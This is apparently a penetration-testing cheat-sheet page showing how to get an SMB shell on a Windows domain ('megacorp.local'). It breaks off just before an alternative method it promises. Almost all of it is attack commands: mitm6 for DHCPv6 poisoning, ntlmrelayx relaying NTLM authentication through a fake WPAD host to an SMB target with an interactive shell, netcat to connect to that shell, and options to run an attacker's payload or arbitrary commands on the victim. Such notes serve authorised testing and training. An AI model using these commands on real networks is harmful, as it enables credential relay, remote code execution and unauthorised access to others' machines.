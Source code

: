 ## <mark style="color:red;">Get an SMB Shell</mark>

```
python mitm6.py -d megacorp.local -i vboxnet0
```

#### we can add -i to get an smb shell if posible

```
ntlmrelayx.py -6 -t smb://192.168.56.115 -wh fakewpad.megacorp.local -l lootme  -i
```

![](<../../.gitbook/assets/image (217).png>)

#### we can connect to the shell with netcat:

```
nc 127.0.0.1 11000
```

![](<../../.gitbook/assets/image (222).png>)

#### now we are in the victims share directory

```
-e [payload.exe]  → to run a payload generated on attackers machine

-c [command] → execute the specified command
```

#### we can use this instead of ntlmrelayx and get a system level interactive shell:
